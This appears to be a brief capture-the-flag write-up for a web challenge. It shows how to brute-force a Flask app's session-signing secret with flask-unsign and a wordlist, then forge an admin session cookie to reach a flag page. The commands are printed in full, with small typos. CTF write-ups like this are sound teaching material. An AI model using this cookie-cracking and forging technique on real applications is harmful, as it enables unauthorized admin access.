 >On analyzing server.py code we find out that the code will check for the session cookie "very auth" and if the session cookie key value is equal to the admin it will redirect us to flag.html page which will have our flag.
>We are also provided with webpage and as the name itself suggests "cookies" we know there is something related to the cookies of the webpage so we ::
Inspect > Application > Storage > Cookies
From there, we see a cookie named session having certain value.

- #### Then using the folowing Block of command on our terminal we will find our flag :
$ pip install flask-unsign[//wordlist]
$ flask-unsign --unsign --cookie <your session cookie value> --wordlist wordlist.tx
* after certain number of attempts we will find our key
- #### Then using this command will provide us with session cookie value:
$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret <secret key>



